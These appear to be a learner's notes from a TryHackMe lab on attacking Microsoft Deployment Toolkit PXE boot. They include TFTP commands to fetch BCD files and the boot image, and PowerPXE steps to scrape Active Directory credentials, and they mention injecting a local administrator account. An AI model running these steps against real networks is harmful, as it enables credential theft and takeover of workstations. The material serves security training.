 # Microsoft Deployment Toolkit

- Microsoft Deployment Toolkit (MDT) is a Microsoft service that assists with automating the deployment of Microsoft Operating Systems (OS)
- Usually, MDT is integrated with Microsoft's System Center Configuration Manager (SCCM), which manages all updates for all Microsoft applications, services, and operating systems.

## PXE Boot
- MDT can be configured in various ways, we will focus exclusively on a configuration called Preboot Execution Environment (PXE) boot.
- Large organisations use PXE boot to allow new devices that are connected to the network to load and install the OS directly over a network connection
- PXE boot is usually integrated with DHCP, which means that if DHCP assigns an IP lease, the host is allowed to request the PXE boot image and start the network OS installation process.
- Once the process is performed, the client will use a TFTP connection to download the PXE boot image. We can exploit the PXE boot image for two different purposes:
  - Inject a privilege escalation vector, such as a Local Administrator account, to gain Administrative access to the OS once the PXE boot has been completed.
  - Perform password scraping attacks to recover AD credentials used during the install.
  
### Password Scraping

- Initial step of attack is not provided. We will skip the part where we attempt to request an IP and the PXE boot preconfigure details from DHCP.
- The first piece of information regarding the PXE Boot preconfigure you would have received via DHCP is the IP of the MDT server.
- The second piece of information you would have received was the names of the BCD files. These files store the information relevant to PXE Boots for the different types of architecture. Might be on a website

1. To ensure that all users of the network can use SSH, start by creating a folder with your username and copying the powerpxe repo into this folder:
```bash
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir <username>
C:\Users\THM\Documents> copy C:\powerpxe <username>\
C:\Users\THM\Documents\> cd <username>
```
2. we need to perform is using TFTP and downloading our BCD file to read the configuration of the MDT server. TFTP is a bit trickier than FTP since we can't list files. Instead, we send a file request, and the server will connect back to us via UDP to transfer the file. Hence, we need to be accurate when specifying files and file paths. The BCD files are always located in the /Tmp/ directory on the MDT server. We can initiate the TFTP transfer using the following command in our SSH session:
```bash
tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
```
- use ```nslookup thmmdt.za.tryhackme.com``` to see the ip

3. Use powerpxe to recover the locations of the PXE Boot images from the BCD file
``` bash
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.   

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```
4. Use the located PXE Boot image and download the pxeboot.wim
``` bash
tftp -i 10.200.24.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim
```
5. PXE Boot Image [Attacks](https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/)
  - Inject local administrator so we will have admin access once booted
  - Recovery credentials

To recovery credential
```bash
Get-FindCredentials -WimFile pxeboot.wim
```



